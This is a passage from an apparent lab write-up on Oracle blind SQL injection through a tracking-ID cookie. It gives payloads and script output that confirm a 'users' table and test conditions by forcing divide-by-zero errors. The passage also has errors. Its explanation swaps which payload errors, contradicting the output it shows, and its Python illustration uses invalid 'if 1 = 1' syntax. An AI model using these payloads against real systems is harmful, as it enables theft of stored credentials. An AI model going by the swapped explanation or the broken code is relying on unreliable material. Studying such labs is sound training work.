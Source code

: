Then, the lab background provided a table called `users`, and it has 2 columns: `username` and `password`.

**Hmm... What if I provided a table that doesn't exist?**
```py
payload = f"""{trackingid}'||(SELECT '' FROM faketable)||'"""
```

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-12]
└─# python3 exploit.py
Error occurred
```

**Then what about a real table?**
```py
payload = f"""{trackingid}'||(SELECT '' FROM users WHERE ROWNUM = 1)||'"""
```

> Note: The `WHERE ROWNUM = 1` condition is to prevent the query from returning more than one row.

```
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-12]
└─# python3 exploit.py
No error
```

**Can confirm it has a table called `users`!**

**Moreover, we can try to do test conditions:**
```py
# Payload 1:
payload = f"""{trackingid}'||(SELECT CASE WHEN (1=1) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'"""

# Payload 2:
payload = f"""{trackingid}'||(SELECT CASE WHEN (1=2) THEN TO_CHAR(1/0) ELSE '' END FROM dual)||'"""
```

```
# Payload 1:
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-12]
└─# python3 exploit.py
Error occurred

# Payload 2:
┌──(root🌸siunam)-[~/ctf/Portswigger-Labs/SQL-Injection/SQLi-12]
└─# python3 exploit.py
No error
```

**The `CASE` statement tests a condition and evaluates to one expression if the condition is true, and another expression if the condition is false.**

- In the payload 1, the `CASE` expression evaluates to `'a'`, which does not cause any error.
- In the payload 2, it evaluates to `1/0`, which causes a divide-by-zero error.

**If you found that the above SQL queries are confusing, let's convert those to python:**
```py
# Payload 1:
if 1 = 1: # Always True
	print(1 / 0) # divide-by-zero error
else:
	print('a')

# Payload 2:
if 1 = 2: # Always False
	print(1 / 0)
else:
	print('a')
```
